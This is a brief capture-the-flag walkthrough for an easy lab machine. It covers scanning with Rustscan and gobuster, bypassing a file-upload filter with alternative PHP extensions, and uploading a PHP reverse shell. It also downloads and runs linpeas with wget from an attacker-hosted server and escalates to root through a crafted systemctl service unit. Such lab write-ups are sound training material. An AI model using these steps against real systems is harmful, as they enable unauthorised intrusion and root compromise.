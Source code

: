 

## Level: Easy


1. Scan with Rustscan

```bash 
rustscan -a 10.10.187.239 --range 1-65535 -- -A -T4 
```

2. Scan the web at port 3333 with gobuster:
```bash 
gobuster dir -u http://10.10.187.239:3333/ -w  /Users/phulelouch/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
```

3. Upload file, scan the extension list:

```powershell
    .php
    .php3
    .php4
    .php5
    .php7

    # Less known PHP extensions
    .pht
    .phps
    .phar
    .phpt
    .pgif
    .phtml
    .phtm
    .inc
```

4. Upload file php by pentestmonkey, scan the endpoint

```bash
gobuster dir -u http://10.10.187.239:3333/internal/ -w  /Users/phulelouch/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
```

5. have shell, read the user.txt
6. upload linpeas.sh

- At host:
```bash
python3 -m http.server 8888
```
- At machine:
```bash
cd /tmp; wget http://ip:8888/linpeas.sh; chmod +x linpeas.sh; ./linpeas.sh
```

7. exploit the systemctl
```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
```
